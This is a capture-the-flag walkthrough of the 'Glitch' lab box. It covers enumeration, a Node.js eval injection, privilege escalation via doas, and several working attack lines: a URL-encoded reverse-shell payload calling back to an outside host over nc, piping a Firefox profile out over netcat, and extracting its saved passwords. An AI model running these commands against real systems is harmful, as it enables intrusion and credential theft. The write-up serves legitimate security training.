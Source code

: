 ## Glitch

# Enumeration
```
# Nmap 7.91 scan initiated Mon Apr 19 21:07:14 2021 as: nmap -sC -sV -oN nmap/initial 10.10.16.30
Nmap scan report for 10.10.16.30
Host is up (0.17s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 19 21:07:43 2021 -- 1 IP address (1 host up) scanned in 28.45 seconds
```
Looks like just a web server running on port 80 so lets check it out

# Web Server
Looking at the source code on port 80 we find the following
```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>not allowed</title>

    <style>
      * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
      }
      body {
        height: 100vh;
        width: 100%;
        background: url('img/glitch.jpg') no-repeat center center / cover;
      }
    </style>
  </head>
  <body>
    <script>
      function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    </script>
  </body>
</html>
```
Look like a function getAccess() is present that makes a GET request from /api/access and logs the response to the console. It is never called, but we can use developer tools to call it and get the output.
Object { token: "dGhpc19pc19ub3RfcmVhbA==" }

echo "dGhpc19pc19ub3RfcmVhbA==" | base64 -d
redacted access token

Looking at the stored cookies we find one called token and here we can place the access token value to gain access to the actual site.
There doesn't seem to be much of interest to progress further besides a link /js/script.js which contains the following
```
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();

```
Lets try and play with the api and send a POST request to /api/items, to which we get the following
```
curl -X POST http://10.10.16.30/api/items
{"message":"there_is_a_glitch_in_the_matrix"}
```
so lets fuzz this to find something viable to use
```
wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt -X POST --hh 45 -u http://10.10.16.30/api/items\?FUZZ\=test
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.16.30/api/items?FUZZ=test
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000179:   500        10 L     64 W       1081 Ch     "cmd"

Total time: 18.65337
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 50.98273
```
Sending a POST request gives us the following error
```
curl -X POST http://10.10.16.30/api/items?cmd=test                                                                
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: test is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```
It seems like it is attempting to take our argument and pass it to the eval function which evaluates javascript in Node.js. We search up RCE for Node.js and find the following article 
https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44
Looks like we can exploit this eval function to obtain a reverse shell
```
curl -X POST http://10.10.16.30/api/items?cmd=require%28%27child_process%27%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.13.1.12%204242%20%3E%2Ftmp%2Ff%27%29
```
We now have a shell spawned and can find the user flag in the home directory of user

# Privilege Escalation
We find a .firefox directory with a profile amidst others and can use a script firefox_decrypt to extract the information. 
On target
```
tar cf - .firefox/ | nc <our ip> <our port>
```

On our box
```
nc -lvp <our port> | tar xf -
```

we can then use the script as follow
```
./firefox_decrypt.py ../.firefox/b5w4643p.default-release
2021-04-19 22:29:44,453 - WARNING - profile.ini not found in ../.firefox/b5w4643p.default-release
2021-04-19 22:29:44,453 - WARNING - Continuing and assuming '../.firefox/b5w4643p.default-release' is a profile location

Website:   https://glitch.thm
Username: 'v0id'
Password: 'redacted'
```

We can use this password to login as the v0id user.
At this point however we can't really find anything to escalate further, so we can look at the hint and says sudo is bloat. Looking this up we find a video and links talking about using doas instead so lets give it a try
```
v0id@ubuntu:~$ sudo -l
[sudo] password for v0id:
Sorry, user v0id may not run sudo on ubuntu.
v0id@ubuntu:~$ doas -u root /bin/bash
Password:
root@ubuntu:/home/v0id# cd /root
root@ubuntu:~# ls
clean.sh  root.txt
```
And there we go we have root and the flag
